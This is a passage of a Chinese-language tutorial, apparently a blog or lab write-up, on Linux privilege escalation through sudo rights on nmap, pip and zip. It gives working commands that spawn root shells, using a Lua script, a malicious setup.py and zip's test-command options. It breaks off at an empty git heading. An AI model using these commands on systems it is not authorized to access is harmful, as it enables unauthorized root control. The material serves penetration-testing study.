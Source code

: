 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibUCkPOLwic8rpGReywbosuvAmFQ8icibVeYM3dg7cj3WdnW0GGZl0sib9bg/640?wx_fmt=jpeg)

nmap 提权；

```
echo “os.execute(‘/bin/bash’)” >> shell.nce
sudo nmap —script=/tmp/shell.nce
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibRwKB34VXahVFdxJskZAWFicn53WLdvQjhkIbrMvyNXtbvUYMdpxxdpg/640?wx_fmt=jpeg)

pip 提权
------

pip 命令被分配了 root 权限

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibcicFv7xur85X605icglPsTqkXibvwm8dgH0rNKOCa2em7SYPPOuIfy8mQ/640?wx_fmt=jpeg)

pip 提权；

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibrTbXRic4MZDK1hsBPQRGdp25oq0BI72n3LmYLBQmt4BgVGm6R5DniaZg/640?wx_fmt=jpeg)

zip 提权
------

zip 命令被分配了 root 权限

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibstuJBapkULF880gTGZJfK9Yt0Mnl9AtQKXVEdNvRdm2Uu744UtgapQ/640?wx_fmt=jpeg)

我们可以发现 sarang 用户可以以 root 用户身份权限来运行 zip 命令，那么我们就可以通过 ZIP 来进行提权：

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT ‘sh #’
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibUCnfias8bhOzOdco3vquwVrAsTGqEDr9vZ0xqHljISavVDm6F9cqAxQ/640?wx_fmt=jpeg)

还有一种可以这样玩：先创建一个 liuwx 文件，然后在将它压缩为 zip 文件，最后使用 unzip-command 来执行 bash 命令从而提权：

```
touch liuwx
```

sudo zip /tmp/liuwx.zip /home/sarang/liuwx -T —unzip-command=”sh -c /bin/bash” tmp 为可写目录，所以压缩包放在 tmp 下；

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaib2afLSgdZpdC0jxzdcN1rNE1gcDGoajKA0QoibPDwyFRQZjRRWKyeNIw/640?wx_fmt=jpeg)

git 提权
------
